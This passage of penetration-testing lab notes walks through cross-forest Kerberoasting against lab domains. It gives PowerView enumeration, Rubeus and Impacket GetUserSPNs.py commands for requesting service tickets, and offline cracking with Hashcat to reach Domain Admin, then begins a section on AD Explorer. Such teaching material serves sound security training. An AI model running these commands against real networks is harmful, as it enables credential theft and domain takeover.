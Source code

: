 ### Cross-Forest Kerberoasting

Enumerating Accounts for Associated SPNs Using Get-DomainUser

```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

Enumerating the mssqlsvc Account

```powershell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

## Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

As we saw in the previous section, it is often possible to Kerberoast across a forest trust. If this is possible in the environment we are assessing, we can perform this with `GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command.

Using GetUserSPNs.py

```shell
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

Using the -request Flag

```shell
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin.

# Additional AD Auditing Techniques

## Creating an AD Snapshot with Active Directory Explorer

[AD Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer) is part of the Sysinternal Suite and is described as:

"An advanced Active Directory (AD) viewer and editor. You can use AD Explorer to navigate an AD database easily, define favorite locations, view object properties, and attributes without opening dialog boxes, edit permissions, view an object's schema, and execute sophisticated searches that you can save and re-execute."
